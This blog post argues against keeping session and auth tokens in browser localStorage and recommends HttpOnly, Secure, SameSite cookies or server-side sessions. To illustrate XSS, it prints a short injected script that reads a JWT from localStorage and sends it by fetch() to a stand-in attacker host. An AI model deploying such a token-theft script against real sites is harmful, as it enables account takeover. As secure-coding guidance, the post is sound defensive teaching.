 ```yaml
---
title: Do Not Use LocalStorage To Save Session and Auth Tokens(Or Any Sensitive Information.)
description: An in-depth look at the security risks inherent in using localStorage to store sensitive informations and robust alternatives that ensure user data is protected.
slug: do-not-use-localstorage-to-save-session-and-auth-tokens
# image: localstorage-token.png
categories:
  - web-application-security
tags:
  - Authentication
  - Web Application Security
  - LocalStorage
weight: 1 # You can add weight to some posts to override the default sorting (date descending)
---
```


# Why using LocalStorage to save sensitive information is UNACCEPTABLE in 2025

Let's be clear. It's 2025. If you, as a developer, are still saving authentication tokens or any other sensitive information in localStorage, you're doing it wrong. Period.

I'm deeply irritated by the number of tutorials, bootcamps, and articles that perpetuate this ridiculous practice. It's a disservice to our profession and a wide-open door to vulnerabilities that should have been eliminated long ago. There's no longer any excuse for making this mistake.

This article isn't a debate. It's an eviction order for an insecure practice. If you teach this, stop.

## First Things First: What is LocalStorage?

It's a browser storage API. A simple JavaScript object where you throw key-value pairs. The end. It's designed to store trivial things, like a user's preference for a dark theme. Not to store the key to a safe. Using it for tokens is like writing down your bank password on a Post-it note and sticking it on your forehead.

# What sucks about localStorage? (Besides security)

Before we even get into the security debacle, localStorage is a technically poor tool for modern web development.

- **Blocks the Damn Main Thread**: It's synchronous. Every **getItem** or **setItem** locks up the UI. While the browser reads from disk, your application freezes. In 2025, with the obsession with performance and 60fps, using a synchronous API for I/O is just plain stupid.
- **Only Storage Garbage (Strings)**: It doesn't store objects. You're forced to do the JSON.stringify() and JSON.parse() nonsense for everything, adding useless code and potential points of failure. It's primitive.
- **Doesn't Talk to Web Workers**: Need to do heavy background processing to avoid crashing the page? Great. But your Web Workers don't have access to localStorage. It's useless for any minimally sophisticated architecture that requires shared state with background threads.
- **Single Origin**: localStorage is locked to the exact origin. `app.site.com` can't read what `api.site.com` has stored. For authentication that needs to work across subdomains, it dies here.

For these reasons alone, he would be a poor choice. But now, let's get to the main crime.

# The Deadly Sin: Cross-Site Scripting (XSS)

This is why any senior developer will laugh at you (or fire you) if you use localStorage for tokens.

Any script injected into your page has full and unrestricted access to localStorage. **ANY SCRIPT**.

An XSS attack occurs when an attacker manages to inject a piece of JavaScript into your application. A malicious comment, an unhandled URL parameter, any slip-up. And all it takes is one line:

```javascript
// malicious actor script injected into your page
const stolenToken = localStorage.getItem('jwt_token');

// send to the server (c2, etc.)
fetch(`https://hacker-server.com/stolen-token?token=?token=${stolenToken}`);
```

GAME OVER.

The attacker has the token. They are now your user. They can access data, make purchases, transfer money, and delete the account. And it's your fault for leaving the key under the rug. Trusting that your application is 100% XSS-proof is the height of arrogance.

# The Obvious Solution They Ignore: Cookies

The solution isn't new, it's not sexy, but it's the right one and has worked for decades: cookies. But not just any cookie thrown in. Cookies configured like a pro.

When your backend generates a token, it must enclose it in a cookie with three MANDATORY flags:

- `HttpOnly`: The most important. It makes the cookie **INACCESSIBLE** to client-side JavaScript. `document.cookie` simply doesn't see this cookie. The XSS attack we described becomes useless. The attacker's script tries to read it and finds nothing. Problem solved.
- `Secure`: Ensures that the cookie only travels over HTTPS. This prevents anyone in the middle (on a public Wi-Fi network, for example) from reading the cookie in plain text. This is basic digital hygiene.
- `SameSite=Strict (or Lax)`: Your weapon against **CSRF (Cross-Site Request Forgery)** attacks. Prevents the browser from sending the cookie in requests from other sites, preventing a user from being tricked into performing actions without knowing.

Your response header should look like this, no excuses:

`Set-Cookie: session_token=SEU_TOKEN_AQUI; HttpOnly; Secure; SameSite=Strict`

# Classic Alternative: Server Sessions

If you don't like JWTs or have a more traditional application, use the time-tested and proven method: server-side sessions.

In this model, the server stores all sensitive data and sends only a random session ID to the client, inside a cookie with the same flags (HttpOnly, Secure, SameSite).

# No More Excuses

Your job isn't to do the easiest thing, it's to do the right thing. Safety isn't a luxury; it's the foundation.

- **NEVER** use localStorage for tokens or any sensitive data.
- **ALWAYS** use cookies.
- Your cookie **MUST** have the HttpOnly, Secure, and SameSite attributes.
- Choose between Server-Side Sessions (stateful) or JWTs in Cookies (stateless) depending on your architecture.